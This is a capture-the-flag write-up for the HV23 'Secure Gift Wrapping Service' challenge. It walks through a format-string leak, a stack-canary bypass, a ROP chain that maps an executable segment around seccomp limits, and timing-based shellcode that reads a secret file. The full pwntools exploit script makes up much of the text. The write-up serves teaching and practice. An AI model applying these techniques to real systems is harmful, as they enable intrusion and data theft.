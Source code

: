 # [HV23.22] Secure Gift Wrapping Service

## Introduction

Difficulty: 1337<br>
Author: darkice

This year, a new service has been launched to support the elves in wrapping gifts. Due to a number of stolen gifts in recent days, increased security measures have been introduced and the gifts are being stored in a secret place. As Christmas is getting closer, the elves need to load the gifts onto the sleigh, but they can't find them. The only hint to this secret place was probably also packed in one of these gifts. Can you take a look at the service and see if you can find the secret?

## Solution

Oh god, second difficult `pwn` challenge, but this time without an unintended solution, let's get this party started...

Starting off, there's a clear format string vulnerability in the first few lines, when prompted for our name, we can leak supply up to 20 characters used for leaking important addresses. Looking through gdb for a while, we can get `canary: %43$p, __libc_start_main+48: %45$p, main: %47$p` by submitting these leaks for our name.

```c
puts("Welcome to the secure gift wrapping service!\n");
printf("Who should the gifts be for? ");
fgets(s, 20, stdin);
printf("Processing the wishes of ");
printf(s);
```

Nice, we got all addresses we need and can fit them into a single leak. We can get the base addresses the following way:

```py        
libc = ELF('./libc_docker.so.6')
prog = ELF('./pwn')

libc_offset = libc.sym['__libc_start_main']
main_offset = prog.sym['main']

canary = int(leaks[0], 16)
libc_base = int(leaks[1], 16) - libc_offset + 48
pie_base = int(leaks[2], 16) - main_offset
```

Well, now the next problem arrives, we need a buffer overflow. After playing around a bit with `gdb` and using `cyclic` as an input for the first wish, then submitting single characters, we find `qaacraacsaact` in our `rbp`, which is at offset `264` when using `cyclic.find(b'aacuaacv')`.

Now we know our payload should look something like this:

```
264 Chars
    +
Stack Canary
    +
ROP Chain
```

This doesn't really help much because in the next few lines, there's some seccomp rules:

```c
v8 = seccomp_init(0LL);
seccomp_rule_add(v8, 2147418112LL, 60LL, 0LL);
seccomp_rule_add(v8, 2147418112LL, 231LL, 0LL);
seccomp_rule_add(v8, 2147418112LL, 0LL, 0LL);
seccomp_rule_add(v8, 2147418112LL, 2LL, 0LL);
seccomp_rule_add(v8, 2147418112LL, 257LL, 0LL);
seccomp_rule_add(v8, 2147418112LL, 9LL, 0LL);
seccomp_rule_add(v8, 2147418112LL, 3LL, 0LL);
seccomp_load(v8);
seccomp_release(v8);
```

This limits our available `syscall`'s to `exit, exit_group, read, open, openat, mmap, close`, this is bad, we don't get a `write`...

After spending way too much time I figured out (with the help of someone else ;)), that you can use the available `syscall`'s to create a new `rwx` segment in our program, load our own `asm` into it and then call the newly created segment.

```py
rop = ROP(libc)

rop.raw(rop.find_gadget(['ret']))
rop.raw(libc.address + 0x0000000000041979) # pop rcx ; add eax, 0x1a0751 ; ret
rop.raw(32)
rop.raw(libc.address + 0x000000000002a3e5) # pop rdi ; ret
rop.raw(prog.sym['gifts'])
rop.raw(libc.address + 0x0000000000054d69) # shl r9, cl ; mov qword ptr [rdi], r9 ; ret

new_segment = prog.address + 0x6000
rop.mmap(new_segment, 0x1000, 7, 0x2|0x20)
rop.read(0, new_segment, 100)
rop.call(new_segment)
```

First we initialize `rcx`, `rdi` and `r9`, then we call `mmap` using `pwntools`, which automatically sets a few registers with our needed values. `rdi=new_segment`, `rsi=length (0x1000)`, `rdx=PROT_READ|PROT_WRITE|PROT_EXEC`, `r10=MAP_PRIVATE|MAP_ANONYMOUS`

Then we just have to build our `asm` to brute-force character for character of our flag, if the character is correct, we will jump into a loop so we can get a timeout in our program.

Our final exploit code looks like this:

```py
from pwn import *
import string

context.log_level = 'error'
context.arch = 'amd64'

flagLen = 0x30
print("[+] Flag: HV23{", end="")
for location in range(5, flagLen):
    for ch in '_}' + string.ascii_lowercase + string.digits:
        rem = remote('152.96.15.10', 1337)
        rem.sendlineafter(b'? ', f'%43$p.%45$p.%47$p'.encode())
        leaks = rem.recvuntil(b'Name a ').lstrip(b'Processing the wishes of ').rstrip(b'\n\nName a ').split(b'.')

        libc = ELF('./libc_docker.so.6')
        prog = ELF('./pwn')

        libc_offset = libc.sym['__libc_start_main']
        main_offset = prog.sym['main']

        canary = int(leaks[0], 16)
        libc_base = int(leaks[1], 16) - libc_offset + 48
        pie_base = int(leaks[2], 16) - main_offset

        # print(f'Canary: {hex(canary)}')
        # print(f'libc_base: {hex(libc_base)}')
        # print(f'pie_base: {hex(pie_base)}')

        libc.address = libc_base
        prog.address = pie_base

        rop = ROP(libc)

        rop.raw(rop.find_gadget(['ret']))
        rop.raw(libc.address + 0x0000000000041979) # pop rcx ; add eax, 0x1a0751 ; ret
        rop.raw(32)
        rop.raw(libc.address + 0x000000000002a3e5) # pop rdi ; ret
        rop.raw(prog.sym['gifts'])
        rop.raw(libc.address + 0x0000000000054d69) # shl r9, cl ; mov qword ptr [rdi], r9 ; ret
        
        new_segment = prog.address + 0x6000
        rop.mmap(new_segment, 0x1000, 7, 0x2|0x20)
        rop.read(0, new_segment, 100)
        rop.call(new_segment)

        payload = b'A'*264
        payload += p64(canary)
        payload += rop.chain()

        rem.sendlineafter(b'wish: ', payload)

        for i in range(4):
            rem.sendlineafter(b'wish: ', b'a')

        file_name = next(prog.search(b'secret.txt'))
        data_segment = prog.address + 0x4000

        shellcode = asm(f'''
        mov rdi, {hex(file_name)}
        xor rsi, rsi
        xor rdx, rdx
        mov rax, 2
        syscall

        mov rdi, rax
        mov rsi, {hex(data_segment)}
        mov rdx, 0x30
        xor rax, rax
        syscall

        mov rsi, {hex(data_segment)}
        add rsi, {hex(location)}
        xor rax, rax
        mov al, {hex(ord(ch))}
        mov bl, [rsi]
        cmp al, bl

        je L2
        jmp done
        L2:
        nop
        jmp L2
        done:
        nop
        ''')

        before = time.time()
        try:
            rem.sendline(shellcode)
            ret = rem.recvall(timeout=3)
            if time.time() - before >= 3:
                print(ch, end="")
                break
        except:
            if time.time() - before >= 3:
                print(ch, end="")
                break
```

Flag: `HV23{t1m3_b4s3d_s3cr3t_exf1ltr4t10n}`
